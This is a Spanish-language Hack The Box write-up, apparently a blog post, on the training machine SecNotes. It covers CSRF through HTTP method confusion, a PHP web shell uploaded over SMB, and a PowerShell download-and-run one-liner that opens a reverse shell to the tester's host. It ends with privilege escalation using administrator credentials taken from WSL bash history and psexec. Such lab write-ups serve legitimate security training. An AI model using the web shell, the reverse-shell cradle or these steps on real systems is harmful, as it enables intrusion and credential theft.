



+++
author = "Andrés Del Cerro"
title = "Hack The Box: SecNotes Writeup | Medium"
date = "2024-08-14"
description = ""
tags = [
    "HackTheBox",
    "SecNotes",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "XSS",
    "Reflected XSS",
    "Stored XSS",
    "HTTP Method Confusion",
    "CSRF",
    "Information Leakage",
    "Abusing WSL",
    "Information Leakage"
]

+++

# Hack The Box: SecNotes Writeup

Welcome to my detailed writeup of the medium difficulty machine **"SecNotes"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.18.0 --ulimit 5000 -g
10.129.18.0 -> [80,445,8808]
```

```shell
$ nmap -p80,445,8808 -sCV 10.129.18.0 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 15:10 CEST
Nmap scan report for 10.129.18.0
Host is up (0.037s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-14T04:11:27-07:00
|_clock-skew: mean: 20m32s, deviation: 4h02m31s, median: -1h59m29s
| smb2-time: 
|   date: 2024-08-14T11:11:25
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.61 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 10.129.18.0 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 15:13 CEST
Nmap scan report for 10.129.18.0
Host is up.
All 1500 scanned ports on 10.129.18.0 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
```

# HTTP Enumeration

Hay pocos vectores de ataque y como por SMB no consigo nada..
```shell
$ smbclient -L \\10.129.18.0 -U '' -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

```shell
$ smbmap -H 10.129.18.0 -u 'null' -p 'null'
[!] Authentication error on 10.129.18.0
```

Vamos a empezar con el puerto 80/TCP

Vemos un recurso `login.php`
```shell
$ whatweb http://10.129.18.0
http://10.129.18.0 [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.18.0], Microsoft-IIS[10.0], PHP[7.2.7], RedirectLocation[login.php], X-Powered-By[PHP/7.2.7]
http://10.129.18.0/login.php [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.18.0], Microsoft-IIS[10.0], PHP[7.2.7], PasswordField[password], Title[Secure Notes - Login], X-Powered-By[PHP/7.2.7]
```

Con la siguiente pinta.


Si nos creamos una cuenta, podemos ver lo siguiente.


Encontramos un Reflected XSS en las notas ya que este se guarda en las notas del usuario.


En el campo de contacto podemos enviar un mensaje a `tyler`.


Si le mandamos una dirección URL, parece que `tyler` la abre..


## Updating Tyler password | CSRF
Comprobando la funcionalidad para cambiar la contraseña, vemos que se envía una solicitud POST a `change_pass.php`


Pero si intentamos cambiar la solicitud a GET..


¡La credencial también se cambia!

A esto se le conoce como HTTP Method Confusion, y esto puede llevar a un CSRF.

Podemos ver que para cambiar la contraseña no hay ningún token CSRF y además si recordamos, `tyler` abría los links que le adjuntamos en el formulario de contacto...

Le pasamos esta URL formulada para cambiar la contraseña de `tyler` a `pointedsec`...


Y podemos iniciar sesión como `tyler`


Encontramos lo que parece credenciales para acceder a un recurso compartido a nivel de red.


Con `netexec` podemos comprobar si son válidas...
```shell
$ nxc smb 10.129.18.0 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
SMB         10.129.18.0     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.129.18.0     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*&
```

# Foothold
Podemos ver los recursos compartidos a nivel de red a los que puede acceder este usuario y vemos que tiene permisos de lectura y escritura para `new-site`


Vemos algunos recursos típicos de un IIS.


Por el puerto 8808/TCP encontramos lo siguiente..


Vamos a probar a subir un archivo y ver si se ve reflejado en este servicio web.

```shell
$ echo "test" > test.txt
```

Y ahora con `smbclient`
```shell
smb: \> put test.txt
putting file test.txt as \test.txt (0,0 kb/s) (average 0,0 kb/s)
```

Y efectivamente, se ve reflejado.


Vamos a ver si se interpreta código PHP en este sitio web..
```shell
$ echo "<?php phpinfo(); ?>" > info.php
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/secnotes/content]
└──╼ [★]$ smbclient \\\\10.129.18.0\\new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'
Try "help" to get a list of possible commands.
smb: \> put info.php
putting file info.php as \info.php (0,2 kb/s) (average 0,2 kb/s)
```

Y vemos que si, ahora solo quedaría subirnos una web shell.


Podemos comprobar que no hay ninguna `disable_functions`


Creamos una web shell sencilla...
```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?
```

La subimos...
```shell
smb: \> put shell.php
putting file shell.php as \shell.php (0,6 kb/s) (average 0,6 kb/s)
```

¡Y tenemos ejecución remota de comandos!


Ahora con el script `Invoke-PowerShellTcp.ps1` de `nishang` vamos a ganar acceso a la máquina.

Nos copiamos el script y le añadimos esta línea a lo último.


Ahora servimos el script por el puerto 8081.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Nos ponemos en escucha con `netcat` por el puerto 443.

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y ejecutamos este one-liner a través de la web shell.
```powershell
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.85:8081/Invoke-PowerShellTcp.ps1') | powershell -noprofile -
```


Y ganamos acceso a la máquina víctima
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.18.0] 59765
Windows PowerShell running as user SECNOTES$ on SECNOTES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\new-site>whoami
secnotes\tyler
```

Y podemos leer la flag de usuario.
```powershell
PS C:\Users\tyler\Desktop> type user.txt
e175f96d71f268b1...
```

# Privilege Escalation
Según vemos la flag, nos llama la atención un acceso directo.


¿bash? Pero si estamos en Windows.

También podemos detectar un directorio `Distros` en la raíz del sistema.
```powershell
PS C:\Distros> dir


    Directory: C:\Distros


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/21/2018   5:59 PM                Ubuntu
```

Podemos deducir que va a entrar en juego WSL (Windows Subsystem for Linux), una manera de poder tener tu sistema operativo Linux dentro de tu máquina Windows.

Entonces vamos a explorar los archivos de este subsistema ya que se tienen que guardar en alguna parte del disco duro, ¿no?

Buscando un poco en Google nos encontramos con alguien que se preguntó lo mismo hace muchos años.
https://superuser.com/questions/1185033/what-is-the-home-directory-on-windows-subsystem-for-linux

Y con esta respuesta.


Y efectivamente, aquí se encuentra el subsistema linux.
```powershell
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs> dir


    Directory: 
    C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
da----        6/21/2018   6:03 PM                bin                                                                   
da----        6/21/2018   6:00 PM                boot                                                                  
da----        6/21/2018   6:00 PM                dev                                                                   
da----        6/22/2018   3:00 AM                etc                                                                   
da----        6/21/2018   6:00 PM                home                                                                  
da----        6/21/2018   6:00 PM                lib                                                                   
da----        6/21/2018   6:00 PM                lib64                                                                 
da----        6/21/2018   6:00 PM                media                                                                 
da----        6/21/2018   6:03 PM                mnt                                                                   
da----        6/21/2018   6:00 PM                opt                                                                   
da----        6/21/2018   6:00 PM                proc                                                                  
da----        6/22/2018   2:44 PM                root                                                                  
da----        6/21/2018   6:00 PM                run                                                                   
da----        6/22/2018   2:57 AM                sbin                                                                  
da----        6/21/2018   6:00 PM                snap                                                                  
da----        6/21/2018   6:00 PM                srv                                                                   
da----        6/21/2018   6:00 PM                sys                                                                   
da----        6/22/2018   2:25 PM                tmp                                                                   
da----        6/21/2018   6:02 PM                usr                                                                   
da----        6/21/2018   6:03 PM                var                                                                   
-a----        6/22/2018   2:25 PM          87944 init                                     
```

Viendo el archivo `/root/.bash_history` encontramos una línea interesante.
```powershell
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

```shell
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

Parecen credenciales del administrador del sistema.

Las podemos comprobar con `netexec` y son válidas.
```shell
$ nxc smb 10.129.18.0 -u Administrator -p 'u6!4ZwgwOM#^OBf#Nwnh'
SMB         10.129.18.0     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.129.18.0     445    SECNOTES         [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
```

Para terminar, teniendo estas credenciales y con `psexec` podemos ganar una consola como `nt authority\system`.

```shell
$ impacket-psexec -target-ip 10.129.18.0 Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.18.0
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.18.0.....
[*] Found writable share ADMIN$
[*] Uploading file pNVSROjb.exe
[*] Opening SVCManager on 10.129.18.0.....
[*] Creating service vyBL on 10.129.18.0.....
[*] Starting service vyBL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

Podríamos leer la flag de `root`
```powershell
C:\Users\Administrator\Desktop> type root.txt
79da3473ede54ef8...
```

¡Y ya estaría!

Happy Hacking! 🚀